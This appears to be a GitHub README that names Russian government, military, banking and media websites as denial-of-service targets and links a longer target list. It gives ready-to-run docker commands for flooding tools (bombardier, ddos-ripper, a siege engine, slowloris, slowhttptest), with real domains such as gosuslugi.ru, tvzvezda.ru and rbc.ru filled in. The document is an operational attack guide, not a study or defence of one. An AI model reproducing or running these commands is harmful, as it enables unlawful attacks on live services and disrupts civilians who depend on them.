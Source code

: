 # List of (some) public russian government and military services

https://www.gosuslugi.ru  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://www.scrf.gov.ru  
https://mil.ru  
https://minpromtorg.gov.ru/  
https://favt.gov.ru/  
https://rkn.gov.ru/  
https://rg.ru/org/pravitelstvo/minoboroni/gru/  
http://www.fso.gov.ru/  
https://api.developer.sber.ru/product/SberbankID

# Propaganda

tvzvezda.ru  
echo.msk.ru  
rg.ru  
kp.ru
rusvesna.su

# Full list of targets

https://pastebin.com/JEuV9ftT

# Some examples to start with

```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
docker run -it --rm nitupkcuf/ddos-ripper:latest www.rt.com
```

# Awesome python siege engine

```
docker run --rm -it mack/battle-tools python3 -m siege_engine 300 tvzvezda.ru
```

# Awesome Slow DDoS tool

https://github.com/gkbrk/slowloris

Example command:  
```
docker run --rm -it aminvakil/slowloris [-h] [-u DOMAIN] [-s numberOfSockets]
```

# Another awesome similar to slowloris tool 

```
docker run --rm -it shekyan/slowhttptest:latest -c 1000 -X -g -o slow_read_stats -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u https://rbc.ru -p 3 
```
